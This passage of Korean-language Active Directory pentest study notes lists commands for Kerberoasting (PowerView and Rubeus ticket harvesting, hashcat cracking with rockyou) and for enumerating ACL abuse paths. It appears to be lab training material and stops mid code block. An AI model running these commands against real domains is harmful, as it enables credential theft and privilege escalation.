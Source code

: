 ```

### Hashcat으로 Cracking
```hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt```

### 2-1) 자동 방법

### PowerView 사용하여 SPN 열거
```
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### 특정 사용자 타켓을 위한 PowerView 사용
```Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat```

### 모든 Ticket을 CSV 파일로 내보내기
```Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation```<br/>
```cat .\ilfreight_tgs.csv```

### 2-2) 자동 방법

### Rubeus 사용하여 통계 수집 (/stats 플래그)
```Rubeus.exe kerberoast /stats```

### 오프라인 cracking을 위한 명령 (admincount 속성 1, /nowrap 플래그)
```Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap```

### 특정 사용자 Ticket 수집
```Rubeus.exe kerberoast /user:testspn /nowrap```

### 특정 사용자 Ticket 수집 (RC4 암호화만 원할 때, /tgtdeleg 플래그)
```Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap```

<br/><br/>
# Access Control List(ACL) & Access Control Entries(ACE) Abuse

## 1. PowerView를 사용하여 ACL 열거

### Find-InterestingDomainAcl 사용 (너무 많은 ACL 열거)
```Find-InterestingDomainAcl```

### 특정 사용자만 타겟 (예 : wley)
```
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
```

### Get-DomainObjectACL 사용 
```Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}```

### GUID 값으로 Reverse Search & Mapping 
```
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

### ObjectAceType 속성 자동 변환 (-ResolveGUIDs 플래그)
```Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}```

### Domain Users List 생성 (수동 : 오래걸림)
```
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
